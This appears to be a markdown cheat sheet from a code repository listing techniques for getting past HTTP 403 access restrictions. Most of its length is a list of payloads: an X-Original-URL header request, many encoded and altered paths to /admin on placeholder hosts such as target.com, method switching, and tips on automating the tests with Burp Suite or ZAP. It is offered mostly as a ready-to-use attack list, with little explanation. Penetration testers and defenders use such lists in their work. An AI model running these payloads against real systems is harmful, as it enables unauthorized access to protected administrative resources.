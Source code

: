 ```yaml
---

### Bypass 403 (Forbidden) Techniques
#### 1. Using Headers
- **X-Original-URL Header**:
  - Request:
    ```
    GET /anything HTTP/1.1
    Host: target.com
    X-Original-URL: /admin
    ```

#### **2. URL Manipulation**
- **Appending %2e**:
  - Original URL: `http://target.com/admin` → 403
  - Bypass URL: `http://target.com/%2e/admin` → 200

- **Adding Dots, Slashes, and Semicolons**:
  - `http://target.com/secret/.` → 200
  - `http://target.com//secret//` → 200
  - `http://target.com/./secret/.` → 200
  - `http://target.com/:/secret` → 200
  - `http://target.com/.i/secret` → 200
  - `http://target.com//;//secret` → 200

#### **3. Changing Request Method**
- Change the request method from **GET** to **TRACE** (or other methods like POST, HEAD, OPTIONS).

#### **4. URL Variations**
- `url.com/admin/?`
- `url.com//admin//`
- `url.com///admin///`
- `url.com/./admin/.`
- `url.com/admin?`
- `url.com/admin%20?`
- `url.com/admin%20/`
- `url.com/admin/..`
- `url.com/admin/../`
- `url.com/admin/.`
- `url.com/admin/.%20/`
- `url.com/admin/*`
- `url.com/admin//*`
- `url.com/admin/%2f/`
- `url.com/admin/%20`
- `url.com/admin/%20/`
- `url.com/admin/%09`
- `url.com/admin/%09/`
- `url.com/admin/%0a`
- `url.com/admin/%0a/`
- `url.com/admin/%0d`
- `url.com/admin/%0d/`
- `url.com/admin/%25`
- `url.com/admin/%25/`
- `url.com/admin/%23`
- `url.com/admin/%23/`
- `url.com/admin/%26`
- `url.com/admin/%3f/`
- `url.com/admin/#`
- `url.com/admin/#/`
- `url.com/admin/#/.`
- `url.com/./admin`
- `url.com/./admin/`

#### **5. Advanced URL Manipulation**
- `url.com/admin/.json`
- `url.com/admin;`
- `url.com/admin/#/.`
- `url.com/./admin`
- `url.com/..;/admin/`
- `url.com/.;/admin/`
- `url.com/;/admin`
- `url.com//;//admin`
- `url.com/%2e/admin`
- `url.com/admin/..;/`
- `url.com/admin.json`
- `url.com/admin%0a`
- `url.com/admin.css`
- `url.com/admin.html`
- `url.com/admin?id=1`
- `url.com/admin~`
- `url.com/admin/é`
- `url.com/admin/-`
- `url.com/admin/..%3B/`
- `url.com/admin/;%2f..%2F..%2F`
- `url.com/ADMIN`
- `url.com/admin/..\\;/`
- `url.com/ADM+IN/`
- `url.com/admin/*/`
- `url.com/admin\\/\\/`
- `url.com/*/admin`
- `url.com/*/admin/`
- `url.com/ADM+IN`

#### **6. Slash Manipulation**
- Try using variations like `/`, `//`, `\\`, `/\\`, etc.

#### **7. Request Headers**
- Try using all possible request methods (POST, HEAD, OPTIONS, TRACE, etc.).

#### **8. References**
- Exploiting HTTP Parsers Inconsistencies: https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies (Nginx ACL)

---
```


### **Tips**
- Always test different URL encodings and special characters.
- Experiment with various HTTP headers like `X-Original-URL`, `X-Rewrite-URL`, etc.
- Use tools like Burp Suite or ZAP to automate testing of different request methods and headers.

---
